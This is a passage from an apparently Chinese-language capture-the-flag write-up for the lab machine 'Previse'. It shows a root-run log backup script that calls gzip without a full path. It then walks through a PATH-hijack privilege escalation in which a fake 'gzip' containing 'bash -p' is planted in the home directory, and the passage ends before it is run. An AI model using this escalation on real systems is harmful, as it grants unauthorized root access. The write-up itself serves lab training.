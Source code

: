 # I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

看到在脚本里使用了gzip命令，把日志文件备份到``` /var/backups```目录

提权的思路是，劫持gzip这个命令，改写gzip的内容，提权到root

查看当前用户的环境变量
```
m4lwhere@previse:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

把当前家目录添加到环境变量 $PATH中
```export PATH=/home/m4lwhere:$PATH ```


再次查看$PATH
```
m4lwhere@previse:~$ echo $PATH
/home/m4lwhere:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

已成功添加

创建gzip文件，赋权为可执行
```
m4lwhere@previse:~$ touch gzip
m4lwhere@previse:~$ chmod +x gzip

```


把下面命令写进gzip文件
```
#!/bin/bash
bash -p
```

查看
```
m4lwhere@previse:~$ cat gzip 
#!/bin/bash
bash -p
